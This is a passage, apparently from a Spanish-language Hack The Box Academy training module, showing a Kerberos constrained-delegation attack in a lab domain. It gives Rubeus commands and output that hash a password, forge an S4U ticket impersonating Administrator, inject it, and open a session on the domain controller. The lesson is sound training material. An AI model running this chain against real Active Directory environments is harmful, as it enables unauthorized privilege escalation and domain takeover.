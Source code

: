Delegación restringida de Kerberos

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:Slavi123

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!

```

![](https://academy.hackthebox.com/storage/modules/176/A9/phash.png)

Entonces, usaremos`Rubeus`Para obtener un boleto para el`Administrator`cuenta:

Delegación restringida de Kerberos

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFiDCCBYSgAwIBBaEDAgEWooIEnjCCBJphggSWMIIEkqADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBFgwggRUoAMCARKhAwIBAqKCBEYEggRCI1ghAg72
      moqMS1skuua6aCpknKibZJ6VEsXfyTZgO5IKRDnYHnTJT6hwywSoXpcxbFDDlakB56re10E6f6H9u5Aq
	  ...
	  ...
	  ...
[+] Ticket successfully imported!

```


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>